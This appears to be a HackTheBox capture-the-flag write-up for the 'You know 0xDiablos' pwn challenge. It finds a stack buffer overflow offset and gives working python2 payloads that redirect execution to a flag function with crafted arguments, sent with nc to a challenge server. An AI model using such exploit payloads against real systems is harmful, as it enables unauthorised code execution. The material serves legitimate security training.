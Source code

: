 ```yaml
---
title: You know 0xDiablos HackTheBox
published: true
tags: [htb ctf pwn bof buffer overflow stack little endian gdb radare2 r2]
---
```

# You know 0xDiablos
## challenge description
> I missed my flag

## trying a large input to cause an overflow

- by executing the binary with a large input delivers us a segmentation fault

```bash
python2 -c "print 'A' * 300 " | ./vuln
```

`37978 segmentation fault (core dumped)  ./vuln`

## investigating the error

- by debugging the binary with `gdb` and the same input we get the following error message: Cannot access memory at address `0x41414141`

> this is the part of the input which overwrites the return pointer which is restored when the `vuln` functions returns the `main` function

- next we can use an unique pattern to get the exact part of the input which overflows
- using this pattern: `Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4Ai5Ai6Ai7Ai8Ai9Aj0Aj1Aj2Aj3Aj4Aj5Aj6Aj7Aj8Aj9` results in the following error: `Cannot access memory at address 0x33674132`
- calculating the offset results in: `188`

> Note: the memory address is in little-endian

## crafting the payload

- in order to print the contents of of the flag we have to manipulate the callflow to call the `flag` function at address: `0x80491e2`

```bash
python2 -c "print 'A' * 188 + '\xe2\x91\x04\x08'" | ./vuln
```

results in: 

```
You know who are 0xDiablos:
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Hurry up and try in on server side.
```

Hurray!!! Lets test it: 

```bash
python2 -c "print 'A' * 188 + '\xe2\x91\x04\x08'" | nc 165.232.98.156 30180

You know who are 0xDiablos:
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
```

- no flag ... let's investigate

## fix callflow

- by checking the `flag` function we have to pass three checks in order to simulate the envionment on the server and print the flag

1. there have to be a file called `flag.txt` ![file existence](../assets/youknow-file-existence.png)
2. `$rbp+0x8` has to be equal to `0xdeadbeef`![deadbeef check](../assets/youknow-deadbeef-check.png)
3. `$rbp+0xc` has to be equal to `0xc0ded00d`![c0ded00d check](../assets/youknow-c0ded00d-check.png)

- luckily we can manipulate `$rbp+0x8` and `$rbp+0xc` by extending the input: 
```bash
python2 -c "print 'A' * 188 + '\xe2\x91\x04\x08' + '\x41\x42\x43\x44' + '\xef\xbe\xad\xde' + '\x0d\xd0\xde\xc0'" | nc 165.232.98.156 30180
```

- we get the flag 


